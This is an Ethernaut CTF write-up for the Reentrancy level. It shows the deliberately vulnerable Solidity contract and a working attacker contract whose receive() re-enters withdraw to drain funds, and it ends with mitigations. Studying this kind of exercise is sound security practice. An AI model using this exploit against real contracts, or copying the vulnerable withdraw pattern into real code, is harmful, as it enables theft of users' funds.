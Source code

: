 ```yaml
---
description: classic reentrancy attack
---
```


# 10 - Reentrancy

Ethernaut Level10: [Reentrancy](https://ethernaut.openzeppelin.com/level/0x573eAaf1C1c2521e671534FAA525fAAf0894eCEb)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}d
```

### Goal of this level

* steal all the funds from the contract

### What you should know before

* reentrancy attack\
  \-> see [here](https://www.youtube.com/watch?v=4Mm3BCyHtDY)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

This level can easily be solved using classic reentrancy attack.

</details>

```solidity
contract AttackReentrance {
    function attack(Reentrance reentranceContract) external payable {
        reentranceContract.donate{value: msg.value}(address(this));
        reentranceContract.withdraw(0.001 ether);
    }

    receive() external payable {
        msg.sender.call(abi.encodeWithSignature("withdraw(uint256)", 0.001 ether));
    }
}
```

Call `attack` function with `0.001 ether` .

Done! 😎

## Key Takeaways

* To prevent reentrancy attack, you must make sure you are usning **Checks-Effects-Interactions** pattern
* Or use [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment)
* You can also use transfer or send function to limit gas, this is not recommended.

